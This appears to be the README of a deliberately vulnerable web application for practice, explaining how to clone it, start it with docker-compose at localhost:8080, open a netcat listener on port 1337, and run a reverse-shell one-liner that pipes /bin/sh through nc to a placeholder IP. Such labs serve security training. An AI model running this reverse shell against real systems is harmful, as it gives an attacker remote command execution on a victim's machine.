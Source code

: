 # Web-vuln

## Building the application

Clone the repository 

```
git clone git@github.com:jphetphoumy/Web-vuln.git
```

Run the docker environment

```
cd web1
docker-compose up -d
```

Access to your vulnerable env at `http://localhost:8080`

Open a reverse shell on your pc :

```
nc -l 1337
```

Run a reverse shell 

```
mkfifo pipe; nc -nv <your_ip> 1337 < pipe | /bin/sh 2>pipe >pipe
```
